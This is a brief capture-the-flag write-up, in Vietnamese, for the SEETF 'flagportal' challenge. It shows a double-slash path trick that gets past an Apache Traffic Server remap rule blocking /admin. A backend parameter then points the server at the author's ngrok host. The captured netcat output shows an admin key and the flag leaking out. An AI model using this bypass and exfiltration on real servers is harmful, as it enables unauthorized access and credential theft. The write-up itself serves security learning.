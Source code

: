 # Solution

Khai thác từ các tricks: <https://nhienit.wordpress.com/2022/03/04/write-up-nimja-at-nantou-tsj-ctf-2022/>, <https://fireshellsecurity.team/tsjctf-nimja-at-nantou/#architecture>

remap.config được cấu hình để ngăn không cho ta truy cập vào `/admin`, nhưng bởi vì apache traffic server có cơ chế normalize path, `//admin` sẽ được hiểu như `/admin` => bypass

payload: 

`http://flagportal.chall.seetf.sg:10001//admin?backend=http://6678-2402-800-63b7-e8ea-20ed-33d2-7fb3-3c9b.ngrok.io?query=string`

response:
```
PS C:\Users\ASUS> nc -lnvp 8888
listening on [any] 8888 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58065
POST /?query=string HTTP/1.1
Host: 6678-2402-800-63b7-e8ea-20ed-33d2-7fb3-3c9b.ngrok.io
User-Agent: Ruby
Content-Length: 37
Accept: */*
Accept-Encoding: gzip;q=1.0,deflate;q=0.6,identity;q=0.3
Admin-Key: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
First-Flag: SEE{n0w_g0_s0lv3_th3_n3xt_p4rt_bf38678e8a1749802b381aa0d36889e8}
X-Forwarded-For: 34.131.58.145
X-Forwarded-Proto: http

target=https%3A%2F%2Fbit.ly%2F3jzERNa
```

**SEE{n0w_g0_s0lv3_th3_n3xt_p4rt_bf38678e8a1749802b381aa0d36889e8}**


